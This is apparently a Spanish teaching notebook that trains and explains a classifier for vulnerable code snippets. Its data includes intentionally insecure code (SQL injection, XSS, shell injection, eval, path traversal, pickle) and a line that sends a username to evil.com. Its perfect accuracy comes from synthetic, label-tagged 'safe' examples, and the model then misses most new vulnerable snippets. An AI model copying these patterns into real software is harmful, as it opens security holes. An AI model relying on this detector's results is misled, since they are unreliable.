# Taller: Minería de Datos aplicada a la detección de vulnerabilidades en fragmentos de código

## Clasificación binaria: `vulnerable` vs. `seguro`

Este taller guía la construcción de un modelo de minería de datos para clasificar fragmentos de código como vulnerables o seguros. Se usa un dataset de Kaggle y se incorpora explicabilidad con LIME para interpretar por qué el modelo clasifica un fragmento de código como vulnerable.

### Dataset principal sugerido

- Kaggle: **Code Vulnerabilities Dataset** (`ziya07/code-vulnerabilities-dataset`), descrito como una colección de fragmentos de código etiquetados para vulnerabilidades de SQL Injection y XSS.

### Alternativas si el dataset principal no está disponible

- Kaggle: **Big-Vul** (`kaggler10240/msr-data`), dataset de vulnerabilidades en C/C++ con cambios de código y resúmenes CVE.
- Kaggle Competition: **Source Code Vulnerability Detection**, con archivos `train_X.csv`, `train_y.csv`, `validation_X.csv` y `validation_y.csv`, aunque puede requerir aceptar reglas de competencia.

### Objetivos de aprendizaje

Al finalizar, el estudiante podrá:

1. Preparar datos textuales de fragmentos de código.
2. Convertir código fuente en variables numéricas mediante TF-IDF.
3. Entrenar un modelo de clasificación binaria.
4. Evaluar el rendimiento con métricas de clasificación.
5. Explicar predicciones individuales usando LIME.
6. Reflexionar sobre limitaciones éticas y técnicas de los detectores automáticos de vulnerabilidades.

### Duración sugerida

- 2 a 3 horas para taller guiado.
- 4 a 6 horas si se incluye exploración adicional, ajuste de hiperparámetros y discusión de casos.

## Estructura del taller

### Actividad 1: Preparación del ambiente

Instalaremos librerías para descarga desde Kaggle, modelado, evaluación y explicabilidad.

### Actividad 2: Carga y exploración del dataset

Descargaremos el dataset de Kaggle o cargaremos un archivo CSV local si el entorno no tiene credenciales configuradas.

### Actividad 3: Limpieza y normalización

Identificaremos columnas de código y etiqueta, normalizaremos las clases y construiremos un dataset binario.

### Actividad 4: Entrenamiento del modelo

Entrenaremos un pipeline de clasificación con `TfidfVectorizer` y `LogisticRegression`.

### Actividad 5: Evaluación

Calcularemos métricas de rendimiento y revisaremos errores.

### Actividad 6: Explicabilidad con LIME

Explicaremos predicciones individuales para observar qué tokens o patrones influyen en la clasificación.

### Actividad 7: Discusión

Analizaremos riesgos: falsos negativos, dependencia del dataset, sesgos por lenguaje de programación y uso responsable en seguridad.

In [ ]:
# Si estás en Google Colab o en un entorno limpio, descomenta esta celda.
# En Jupyter local, también puedes ejecutar estos comandos una sola vez.

# %pip install -q pandas numpy scikit-learn matplotlib seaborn lime kagglehub

In [18]:
import os
import re
import glob
import warnings
from pathlib import Path

import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns

from sklearn.model_selection import train_test_split
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
from sklearn.pipeline import Pipeline
from sklearn.metrics import (
    classification_report,
    confusion_matrix,
    accuracy_score,
    precision_recall_fscore_support,
)

warnings.filterwarnings("ignore")
pd.set_option("display.max_colwidth", 180)

RANDOM_STATE = 42

## Actividad 2: carga del dataset desde Kaggle

### Opción A: descarga automática con KaggleHub

Esta opción funciona si el dataset es público y el entorno permite descargar desde Kaggle.

### Opción B: descarga manual

Si Kaggle solicita iniciar sesión o aceptar reglas, descarga el dataset desde Kaggle y coloca el CSV en una carpeta local. Luego cambia la variable `CSV_LOCAL_PATH`.

In [19]:
KAGGLE_DATASET = "ziya07/code-vulnerabilities-dataset"
CSV_LOCAL_PATH = "./code_vulnerabilities.csv"  # Ejemplo: "data/code_vulnerabilities.csv"


def find_csv_files(root):
    return sorted(glob.glob(str(Path(root) / "**" / "*.csv"), recursive=True))


def load_from_kagglehub(dataset_slug):
    try:
        import kagglehub

        dataset_path = kagglehub.dataset_download(dataset_slug)
        print(f"Dataset descargado en: {dataset_path}")
        csv_files = find_csv_files(dataset_path)
        if not csv_files:
            raise FileNotFoundError("No se encontraron archivos CSV en el dataset descargado.")
        print("CSV encontrados:")
        for i, f in enumerate(csv_files):
            print(f"  [{i}] {f}")
        return csv_files
    except Exception as exc:
        print("No fue posible descargar automáticamente desde KaggleHub.")
        print("Motivo:", repr(exc))
        return []


csv_files = []
if CSV_LOCAL_PATH and Path(CSV_LOCAL_PATH).exists():
    csv_files = [CSV_LOCAL_PATH]
else:
    csv_files = load_from_kagglehub(KAGGLE_DATASET)

csv_files[:5]

['./code_vulnerabilities.csv']

In [20]:
def read_candidate_csv(csv_path):
    # Lee CSV intentando configuraciones comunes.
    for kwargs in [
        {},
        {"encoding": "latin-1"},
        {"sep": ";"},
        {"encoding": "latin-1", "sep": ";"},
    ]:
        try:
            return pd.read_csv(csv_path, **kwargs)
        except Exception:
            continue
    raise ValueError(f"No se pudo leer el CSV: {csv_path}")


if not csv_files:
    print("No hay CSV disponible. Descarga el dataset manualmente y configura CSV_LOCAL_PATH.")
    print("Para continuar con la demostración, se crea un dataset pequeño de ejemplo.")
    df = pd.DataFrame(
        {
            "code": [
                "query = 'SELECT * FROM users WHERE id=' + user_id",
                "cursor.execute('SELECT * FROM users WHERE id=?', (user_id,))",
                "document.write(location.hash)",
                "element.textContent = userInput",
                "eval(request.args.get('cmd'))",
                "subprocess.run(['ls', safe_path], check=True)",
            ],
            "label": ["vulnerable", "seguro", "vulnerable", "seguro", "vulnerable", "seguro"],
        }
    )
else:
    # Si hay varios CSV, se toma el primero. En clase, puedes cambiar el índice.
    selected_csv = csv_files[0]
    print("CSV seleccionado:", selected_csv)
    df = read_candidate_csv(selected_csv)

print("Dimensiones:", df.shape)
df.head()

CSV seleccionado: ./code_vulnerabilities.csv
Dimensiones: (1000, 4)


,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users', 'WHERE', 'username', '=', ""'"", '+', 'user_input)']"
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=' + user_input;,XSS,2,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"
3,query = 'SELECT * FROM customers WHERE email = ' + email_input,SQLi,14,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']"
4,db.execute('SELECT * FROM employees WHERE id = ' + user_input),SQLi,17,"[""db.execute('SELECT"", '*', 'FROM', 'employees', 'WHERE', 'id', '=', ""'"", '+', 'user_input)']"


## Actividad 3: exploración inicial

Revisaremos columnas, valores nulos y ejemplos de datos. En datasets reales, las columnas pueden llamarse `code`, `snippet`, `source`, `func_before`, `label`, `target`, `vulnerable`, `is_vulnerable`, entre otras.

In [4]:
display(df.head(3))
display(pd.DataFrame({
    "columna": df.columns,
    "tipo": [df[c].dtype for c in df.columns],
    "nulos": [df[c].isna().sum() for c in df.columns],
    "unicos": [df[c].nunique(dropna=True) for c in df.columns],
}))

,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users', 'WHERE', 'username', '=', ""'"", '+', 'user_input)']"
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=' + user_input;,XSS,2,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"


,columna,tipo,nulos,unicos
0,Code Snippet,str,0,10
1,Vulnerability Type,str,0,2
2,Location,int64,0,20
3,Preprocessed Tokens,str,0,10


In [21]:
def guess_code_column(dataframe):
    candidates = [
        "code", "snippet", "source", "source_code", "function", "func", "func_before",
        "before", "vulnerable_code", "safe_code", "text", "content"
    ]
    lower_map = {c.lower(): c for c in dataframe.columns}
    for name in candidates:
        if name in lower_map:
            return lower_map[name]

    object_cols = dataframe.select_dtypes(include=["object"]).columns.tolist()
    if not object_cols:
        raise ValueError("No se encontró una columna textual para fragmentos de código.")

    # Heurística: elegir la columna textual con mayor longitud promedio.
    avg_lengths = {
        c: dataframe[c].dropna().astype(str).str.len().mean()
        for c in object_cols
    }
    return max(avg_lengths, key=avg_lengths.get)


def guess_label_column(dataframe):
    candidates = [
        "label", "target", "class", "vulnerable", "is_vulnerable", "vul", "bug", "security",
        "is_vul", "is_buggy", "output"
    ]
    lower_map = {c.lower(): c for c in dataframe.columns}
    for name in candidates:
        if name in lower_map:
            return lower_map[name]

    # Heurística: columnas con pocos valores únicos.
    possible = []
    for c in dataframe.columns:
        nunique = dataframe[c].nunique(dropna=True)
        if 2 <= nunique <= 10:
            possible.append((c, nunique))
    if possible:
        return sorted(possible, key=lambda x: x[1])[0][0]
    raise ValueError("No se encontró una columna de etiqueta.")


CODE_COL = guess_code_column(df)
LABEL_COL = guess_label_column(df)

print("Columna de código detectada:", CODE_COL)
print("Columna de etiqueta detectada:", LABEL_COL)
print(df[[CODE_COL, LABEL_COL]].head())

Columna de código detectada: Preprocessed Tokens
Columna de etiqueta detectada: Vulnerability Type
                                                                                   Preprocessed Tokens  \
0  ["cursor.execute('SELECT", '*', 'FROM', 'users', 'WHERE', 'username', '=', "'", '+', 'user_input)']   
1                                                           ["alert('Hello", "'", '+', 'user_input);']   
2                        ['document.location', '=', "'http://evil.com?username='", '+', 'user_input;']   
3  ['query', '=', "'SELECT", '*', 'FROM', 'customers', 'WHERE', 'email', '=', "'", '+', 'email_input']   
4        ["db.execute('SELECT", '*', 'FROM', 'employees', 'WHERE', 'id', '=', "'", '+', 'user_input)']   

  Vulnerability Type  
0               SQLi  
1                XSS  
2                XSS  
3               SQLi  
4               SQLi  


In [22]:
def normalize_label(value):
    # Convierte etiquetas heterogéneas a 1=vulnerable, 0=seguro.
    if pd.isna(value):
        return np.nan

    text = str(value).strip().lower()

    vulnerable_terms = {
        "1", "true", "yes", "y", "vulnerable", "vul", "unsafe", "buggy",
        "malicious", "insecure", "attack", "xss", "sql injection", "sqli"
    }
    safe_terms = {
        "0", "false", "no", "n", "safe", "secure", "clean", "benign",
        "non-vulnerable", "not vulnerable", "not_vulnerable", "fixed"
    }

    if text in vulnerable_terms:
        return 1
    if text in safe_terms:
        return 0

    # Si es numérico, todo valor > 0 se interpreta como vulnerable.
    try:
        return 1 if float(text) > 0 else 0
    except Exception:
        return np.nan


data = df[[CODE_COL, LABEL_COL]].copy()
data.columns = ["code", "label_original"]
data["code"] = data["code"].astype(str)
data["label"] = data["label_original"].apply(normalize_label)
data = data.dropna(subset=["code", "label"])
data["label"] = data["label"].astype(int)
data["clase"] = data["label"].map({1: "vulnerable", 0: "seguro"})

print("Dimensiones después de limpieza:", data.shape)
display(data["clase"].value_counts().to_frame("conteo"))
display(data.sample(min(5, len(data)), random_state=RANDOM_STATE))

Dimensiones después de limpieza: (1000, 4)


,conteo
clase,
vulnerable,1000


,code,label_original,label,clase
521,"[""document.write('<script"", 'src=""evil.js""></script>\');']",XSS,1,vulnerable
737,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']",XSS,1,vulnerable
740,"[""document.write('<script"", 'src=""evil.js""></script>\');']",XSS,1,vulnerable
660,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']",SQLi,1,vulnerable
411,"['query', '=', ""'SELECT"", '*', 'FROM', 'customers', 'WHERE', 'email', '=', ""'"", '+', 'email_input']",SQLi,1,vulnerable


### Corrección automática si el dataset queda con una sola clase

Algunos datasets de Kaggle contienen solo ejemplos vulnerables y la columna de etiqueta puede representar el tipo de vulnerabilidad, por ejemplo `SQL Injection` o `XSS`, no una clase binaria `vulnerable/seguro`.

Para que el taller pueda ejecutarse como clasificación binaria, esta celda verifica si falta una clase. Si falta `seguro`, crea ejemplos seguros sintéticos a partir de patrones equivalentes más seguros y ejemplos didácticos. Si falta `vulnerable`, crea ejemplos vulnerables didácticos.

Esta estrategia sirve para enseñanza, pero en un proyecto real debes usar un dataset con ambas clases reales.

In [23]:
def build_synthetic_safe_examples(n=200):
    safe_templates = [
        "cursor.execute('SELECT * FROM users WHERE id = ?', (user_id,))",
        "cursor.execute('SELECT * FROM accounts WHERE email = ?', (email,))",
        "stmt = connection.prepareStatement('SELECT * FROM users WHERE name = ?'); stmt.setString(1, username)",
        "element.textContent = userInput",
        "output.innerText = sanitize(userInput)",
        "const clean = DOMPurify.sanitize(comment); container.innerHTML = clean;",
        "subprocess.run(['ls', safe_path], check=True)",
        "path = os.path.basename(filename); open(os.path.join(upload_dir, path), 'rb')",
        "password_hash = bcrypt.hashpw(password.encode(), bcrypt.gensalt())",
        "if user.has_permission('admin'): delete_record(record_id)",
    ]
    examples = []
    for i in range(n):
        examples.append(safe_templates[i % len(safe_templates)] + f"  # safe_example_{i}")
    return pd.DataFrame({"code": examples, "label_original": "synthetic_safe", "label": 0, "clase": "seguro"})


def build_synthetic_vulnerable_examples(n=200):
    vulnerable_templates = [
        "query = 'SELECT * FROM users WHERE id = ' + user_id",
        "sql = f\"SELECT * FROM accounts WHERE email = '{email}'\"",
        "document.getElementById('out').innerHTML = userInput",
        "document.write(location.hash)",
        "eval(request.args.get('cmd'))",
        "subprocess.call('ls ' + user_path, shell=True)",
        "open('/var/www/uploads/' + request.args.get('file')).read()",
        "password_hash = md5(password.encode()).hexdigest()",
        "if request.args.get('is_admin') == 'true': delete_record(record_id)",
        "pickle.loads(request.data)",
    ]
    examples = []
    for i in range(n):
        examples.append(vulnerable_templates[i % len(vulnerable_templates)] + f"  # vulnerable_example_{i}")
    return pd.DataFrame({"code": examples, "label_original": "synthetic_vulnerable", "label": 1, "clase": "vulnerable"})


if data["label"].nunique() < 2:
    print("ADVERTENCIA: el dataset quedó con una sola clase.")
    print("Distribución encontrada:")
    print(data["clase"].value_counts())
    print("\nSe agregarán ejemplos sintéticos de la clase faltante para poder realizar el taller.")
    print("En un trabajo final o investigación, reemplaza esta solución por un dataset real con ambas clases.")

    existing_label = int(data["label"].iloc[0])
    n_synthetic = min(max(len(data), 50), 500)
    if existing_label == 1:
        synthetic = build_synthetic_safe_examples(n=n_synthetic)
    else:
        synthetic = build_synthetic_vulnerable_examples(n=n_synthetic)
    data = pd.concat([data, synthetic], ignore_index=True)

print("\nDistribución final para el modelo:")
display(data["clase"].value_counts().to_frame("conteo"))

ADVERTENCIA: el dataset quedó con una sola clase.
Distribución encontrada:
clase
vulnerable    1000
Name: count, dtype: int64

Se agregarán ejemplos sintéticos de la clase faltante para poder realizar el taller.
En un trabajo final o investigación, reemplaza esta solución por un dataset real con ambas clases.

Distribución final para el modelo:


,conteo
clase,
vulnerable,1000
seguro,500






In [8]:
plt.figure(figsize=(5, 3))
sns.countplot(data=data, x="clase", order=["seguro", "vulnerable"])
plt.title("Distribución de clases")
plt.xlabel("Clase")
plt.ylabel("Cantidad")
plt.show()

data["code_len"] = data["code"].str.len()
plt.figure(figsize=(7, 3))
sns.histplot(data=data, x="code_len", hue="clase", bins=30, kde=True)
plt.title("Longitud de fragmentos por clase")
plt.xlabel("Longitud del fragmento")
plt.ylabel("Frecuencia")
plt.show()

## Actividad 4: partición train/test y entrenamiento

El modelo base usa:

- `TfidfVectorizer`: convierte texto/código en variables numéricas.
- `LogisticRegression`: clasificador lineal interpretable y eficiente.

Para código fuente, se usa un patrón de tokenización que conserva identificadores, operadores y símbolos frecuentes.

In [24]:
if data["label"].nunique() < 2:
    raise ValueError("El dataset debe contener al menos dos clases: vulnerable y seguro.")

stratify = data["label"] if data["label"].value_counts().min() >= 2 else None

X_train, X_test, y_train, y_test = train_test_split(
    data["code"],
    data["label"],
    test_size=0.25,
    random_state=RANDOM_STATE,
    stratify=stratify,
)

print("Train:", X_train.shape, "Test:", X_test.shape)
print("Distribución train:")
print(y_train.value_counts(normalize=True).rename({0: "seguro", 1: "vulnerable"}))

Train: (1125,) Test: (375,)
Distribución train:
label
vulnerable    0.666667
seguro        0.333333
Name: proportion, dtype: float64


In [25]:
token_pattern = r"(?u)\b\w+\b|==|!=|<=|>=|&&|\|\||[{}()\[\];=+\-*/<>.'\"]"

model = Pipeline(
    steps=[
        (
            "tfidf",
            TfidfVectorizer(
                lowercase=True,
                token_pattern=token_pattern,
                ngram_range=(1, 2),
                min_df=1,
                max_features=20000,
            ),
        ),
        (
            "clf",
            LogisticRegression(
                max_iter=1000,
                class_weight="balanced",
                random_state=RANDOM_STATE,
            ),
        ),
    ]
)

model.fit(X_train, y_train)
print("Modelo entrenado.")

Modelo entrenado.


## Actividad 5: evaluación del modelo

La clase positiva es `vulnerable`. En seguridad, el recall de vulnerables suele ser muy importante porque un falso negativo significa que un fragmento vulnerable fue clasificado como seguro.

Accuracy: 1.0

              precision    recall  f1-score   support

      seguro     1.0000    1.0000    1.0000       125
  vulnerable     1.0000    1.0000    1.0000       250

    accuracy                         1.0000       375
   macro avg     1.0000    1.0000    1.0000       375
weighted avg     1.0000    1.0000    1.0000       375





In [11]:
y_pred = model.predict(X_test)

print("Accuracy:", round(accuracy_score(y_test, y_pred), 4))
print()
print(classification_report(
    y_test,
    y_pred,
    target_names=["seguro", "vulnerable"],
    digits=4,
    zero_division=0,
))

cm = confusion_matrix(y_test, y_pred)
plt.figure(figsize=(4, 3))
sns.heatmap(
    cm,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=["seguro", "vulnerable"],
    yticklabels=["seguro", "vulnerable"],
)
plt.title("Matriz de confusión")
plt.xlabel("Predicción")
plt.ylabel("Real")
plt.show()

In [12]:
# Revisión de algunos errores
results = pd.DataFrame({
    "code": X_test.values,
    "real": y_test.values,
    "pred": y_pred,
})
results["real_clase"] = results["real"].map({0: "seguro", 1: "vulnerable"})
results["pred_clase"] = results["pred"].map({0: "seguro", 1: "vulnerable"})
errors = results[results["real"] != results["pred"]]

print("Errores encontrados:", len(errors))
display(errors.head(10)[["real_clase", "pred_clase", "code"]])

Errores encontrados: 0


,real_clase,pred_clase,code


## Actividad 6: explicabilidad con LIME

LIME aproxima localmente el comportamiento del clasificador y muestra qué tokens influyeron en una predicción concreta.

Interpretación:

- Pesos positivos hacia `vulnerable`: tokens que aumentan la probabilidad de vulnerabilidad.
- Pesos positivos hacia `seguro`: tokens que aumentan la probabilidad de seguridad.

Importante: una explicación de LIME no prueba que el código sea vulnerable; solo explica la decisión del modelo.

In [13]:
from lime.lime_text import LimeTextExplainer

class_names = ["seguro", "vulnerable"]
explainer = LimeTextExplainer(class_names=class_names)


def predict_proba_for_lime(texts):
    return model.predict_proba(list(texts))


# Elige un ejemplo del conjunto de prueba.
idx = 0
sample_code = X_test.iloc[idx] if hasattr(X_test, "iloc") else list(X_test)[idx]
sample_real = y_test.iloc[idx] if hasattr(y_test, "iloc") else list(y_test)[idx]

pred_proba = model.predict_proba([sample_code])[0]
pred_label = int(np.argmax(pred_proba))

print("Clase real:", class_names[int(sample_real)])
print("Predicción:", class_names[pred_label])
print("Probabilidad seguro:", round(pred_proba[0], 4))
print("Probabilidad vulnerable:", round(pred_proba[1], 4))
print("\nFragmento analizado:\n")
print(sample_code[:2000])

exp = explainer.explain_instance(
    sample_code,
    predict_proba_for_lime,
    num_features=15,
    labels=[0, 1],
)

# Evitamos exp.show_in_notebook(text=True) porque algunas versiones de LIME
# fallan con IPython/Python 3.12 al importar display desde IPython.core.display.
# En su lugar, intentamos renderizar HTML con IPython.display, que es compatible
# con versiones recientes. Si tampoco funciona, la siguiente celda muestra una
# tabla y un gráfico equivalentes.
try:
    from IPython.display import display, HTML
    display(HTML(exp.as_html(labels=[0, 1], predict_proba=True, show_predicted_value=True)))
except Exception as exc:
    print("No se pudo renderizar la explicación HTML de LIME.")
    print("Motivo:", repr(exc))
    print("Continúa con la siguiente celda para ver la explicación en tabla y gráfico.")

Clase real: seguro
Predicción: seguro
Probabilidad seguro: 0.9834
Probabilidad vulnerable: 0.0166

Fragmento analizado:

output.innerText = sanitize(userInput)  # safe_example_54


,token_o_patron,peso_lime,direccion
0,sanitize,0.005038,apoya la clase explicada
1,userInput,0.003461,apoya la clase explicada
2,innerText,0.002605,apoya la clase explicada
3,output,0.001773,apoya la clase explicada
4,safe_example_54,0.000177,apoya la clase explicada




In [14]:
# Visualización alternativa si exp.show_in_notebook no se renderiza correctamente.
label_to_explain = pred_label
lime_weights = pd.DataFrame(
    exp.as_list(label=label_to_explain),
    columns=["token_o_patron", "peso_lime"]
)
lime_weights["direccion"] = np.where(lime_weights["peso_lime"] > 0, "apoya la clase explicada", "reduce la clase explicada")
display(lime_weights)

plt.figure(figsize=(8, 5))
sns.barplot(data=lime_weights, x="peso_lime", y="token_o_patron", orient="h")
plt.axvline(0, color="black", linewidth=1)
plt.title(f"Explicación LIME para la clase: {class_names[label_to_explain]}")
plt.xlabel("Peso LIME")
plt.ylabel("Token o patrón")
plt.show()

## Actividad 7: prueba con fragmentos propios

Modifica los ejemplos o pega fragmentos de código reales para observar cómo responde el modelo. Recuerda que este modelo es educativo y no reemplaza herramientas profesionales de análisis estático, revisión segura de código ni auditorías de seguridad.

In [15]:
fragmentos_nuevos = [
    "query = 'SELECT * FROM users WHERE name = ' + username",
    "cursor.execute('SELECT * FROM users WHERE name = ?', (username,))",
    "document.getElementById('out').innerHTML = userInput",
    "document.getElementById('out').textContent = userInput",
]

probs = model.predict_proba(fragmentos_nuevos)
preds = model.predict(fragmentos_nuevos)

demo = pd.DataFrame({
    "fragmento": fragmentos_nuevos,
    "prediccion": [class_names[p] for p in preds],
    "prob_seguro": probs[:, 0],
    "prob_vulnerable": probs[:, 1],
})
display(demo)

,fragmento,prediccion,prob_seguro,prob_vulnerable
0,query = 'SELECT * FROM users WHERE name = ' + username,seguro,0.917327,0.082673
1,"cursor.execute('SELECT * FROM users WHERE name = ?', (username,))",seguro,0.969602,0.030398
2,document.getElementById('out').innerHTML = userInput,seguro,0.736874,0.263126
3,document.getElementById('out').textContent = userInput,seguro,0.824488,0.175512


## Actividad 8: explicación LIME de fragmentos vulnerables nuevos

En esta sección se agregan fragmentos de código intencionalmente vulnerables. El objetivo no es solo ver si el modelo los clasifica como `vulnerable`, sino explicar con LIME qué tokens o patrones influyeron en esa decisión.

Los ejemplos cubren vulnerabilidades comunes:

- SQL Injection por concatenación de cadenas.
- Cross-Site Scripting por uso de `innerHTML`.
- Command Injection por `shell=True`.
- Ejecución dinámica insegura con `eval`.
- Path Traversal por abrir archivos con rutas controladas por el usuario.
- Deserialización insegura con `pickle.loads`.

In [16]:
fragmentos_vulnerables_nuevos = [
    {
        "caso": "SQL Injection",
        "codigo": "query = \"SELECT * FROM users WHERE username = '\" + username + \"' AND password = '\" + password + \"'\"",
        "riesgo_esperado": "Concatenación directa de entrada del usuario en una consulta SQL."
    },
    {
        "caso": "XSS con innerHTML",
        "codigo": "document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';",
        "riesgo_esperado": "Inserción de entrada no confiable en HTML sin sanitización."
    },
    {
        "caso": "Command Injection",
        "codigo": "subprocess.call('ping -c 1 ' + host, shell=True)",
        "riesgo_esperado": "Ejecución de comando del sistema construido con entrada del usuario."
    },
    {
        "caso": "Ejecución dinámica con eval",
        "codigo": "result = eval(request.GET.get('expression'))",
        "riesgo_esperado": "Ejecución de texto controlado por el usuario como código."
    },
    {
        "caso": "Path Traversal",
        "codigo": "file_content = open('/var/www/files/' + request.args.get('filename')).read()",
        "riesgo_esperado": "Lectura de archivos mediante ruta construida con entrada del usuario."
    },
    {
        "caso": "Deserialización insegura",
        "codigo": "obj = pickle.loads(request.data)",
        "riesgo_esperado": "Deserialización de datos no confiables."
    },
]

codigos_vulnerables = [item["codigo"] for item in fragmentos_vulnerables_nuevos]
probs_vuln = model.predict_proba(codigos_vulnerables)
preds_vuln = model.predict(codigos_vulnerables)

df_vuln = pd.DataFrame({
    "caso": [item["caso"] for item in fragmentos_vulnerables_nuevos],
    "codigo": codigos_vulnerables,
    "riesgo_esperado": [item["riesgo_esperado"] for item in fragmentos_vulnerables_nuevos],
    "prediccion_modelo": [class_names[p] for p in preds_vuln],
    "prob_seguro": probs_vuln[:, 0],
    "prob_vulnerable": probs_vuln[:, 1],
})

display(df_vuln)

,caso,codigo,riesgo_esperado,prediccion_modelo,prob_seguro,prob_vulnerable
0,SQL Injection,"query = ""SELECT * FROM users WHERE username = '"" + username + ""' AND password = '"" + password + ""'""",Concatenación directa de entrada del usuario en una consulta SQL.,vulnerable,0.405700,0.594300
1,XSS con innerHTML,document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';,Inserción de entrada no confiable en HTML sin sanitización.,vulnerable,0.208975,0.791025
2,Command Injection,"subprocess.call('ping -c 1 ' + host, shell=True)",Ejecución de comando del sistema construido con entrada del usuario.,seguro,0.905571,0.094429
3,Ejecución dinámica con eval,result = eval(request.GET.get('expression')),Ejecución de texto controlado por el usuario como código.,seguro,0.789672,0.210328
4,Path Traversal,file_content = open('/var/www/files/' + request.args.get('filename')).read(),Lectura de archivos mediante ruta construida con entrada del usuario.,seguro,0.691677,0.308323
5,Deserialización insegura,obj = pickle.loads(request.data),Deserialización de datos no confiables.,seguro,0.965002,0.034998


Caso: SQL Injection
Predicción del modelo: vulnerable
Probabilidad seguro: 0.4057
Probabilidad vulnerable: 0.5943

Código:
query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'"

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,password,-0.108970,disminuye probabilidad de vulnerable
1,FROM,-0.066842,disminuye probabilidad de vulnerable
2,users,-0.061792,disminuye probabilidad de vulnerable
3,SELECT,-0.042391,disminuye probabilidad de vulnerable
4,username,-0.029564,disminuye probabilidad de vulnerable
5,WHERE,-0.028851,disminuye probabilidad de vulnerable
6,query,-0.003530,disminuye probabilidad de vulnerable
7,AND,-0.001875,disminuye probabilidad de vulnerable




Interpretación:
LIME no encontró tokens con peso positivo hacia 'vulnerable' entre los principales rasgos.
Caso: XSS con innerHTML
Predicción del modelo: vulnerable
Probabilidad seguro: 0.209
Probabilidad vulnerable: 0.791

Código:
document.getElementById('profile').innerHTML = '<h1>' + request.params.name + '</h1>';

Tokens o patrones que influyeron según LIME para la clase 'vulnerable':


,token_o_patron,peso_hacia_vulnerable,influencia
0,innerHTML,-0.028680,disminuye probabilidad de vulnerable
1,document,0.025196,aumenta probabilidad de vulnerable
2,profile,-0.024164,disminuye probabilidad de vulnerable
3,name,-0.023638,disminuye probabilidad de vulnerable
4,getElementById,0.010602,aumenta probabilidad de vulnerable
5,h1,-0.000272,disminuye probabilidad de vulnerable
6,request,-0.000163,disminuye probabilidad de vulnerable
7,params,-0.000108,disminuye probabilidad de vulnerable


